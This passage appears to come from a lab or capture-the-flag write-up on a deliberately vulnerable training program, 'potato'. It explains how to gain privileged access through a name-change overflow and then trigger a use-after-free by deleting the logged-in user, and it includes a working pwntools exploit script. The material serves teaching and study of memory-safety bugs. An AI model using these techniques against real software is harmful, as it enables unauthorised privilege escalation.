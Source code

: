 According to Ernst it is possible to add a "fake" user_list entry and manipulate the linked list of user_entries in a way that we are pointing the root user to the currently logged in user. Thus gaining root privileges.

Because a manipulation of the code is necessary I do not think this is the intedned solution.

## demonstrate a use after free or double free condition in the program

Triggering a _use after free_ condition is possible when we are logged in as _peter_ and gained privileged access with our initial exploit, overwriting a t_user struct.
First we login as the non-privileged user _peter_ and exploit the vulnerability in the `change_name()` function to gain privileged access.
After that we continue and delete our own user _peter_ while being logged in. This will lead to the chunk containing the user data of _peter_ to still be referenced from the `session.logged_in_user` variable. If we then invoke the `whoami()` function, a _use after free_ condition will be triggered.

The following script executes the described exploit.

```python
#!/usr/bin/env python3

from pwn import *
import sys

elf = ELF("./potato")
# context.binary = elf
# context.arch = 'i386'
# context.bits = 32
# context.endian = 'little'
# context.os = 'linux'

p = elf.process(["console"], stdin=PTY, aslr=False) # stdin=PTY for "getpass" password input
gdb.attach(p, '''
break userlist.c:88
break func.c:216
continue
''')

print(p.recvuntil(b"cmd> ")) # username
p.sendline(b"login")
# test user
p.sendline(b"peter")
p.sendline(b"12345")
print(p.recvuntil(b"cmd> ")) # username

p.sendline(b"changename")
payload = b"\x41"*53
p.sendline(payload)

p.sendline(b"changename")
payload = b"\x41"*52
p.sendline(payload)

p.sendline(b"changename")
payload = b"peter"
p.sendline(payload)

p.sendline(b"delete")
p.sendline(b"2")

p.sendline(b"whoami")

p.interactive()
```
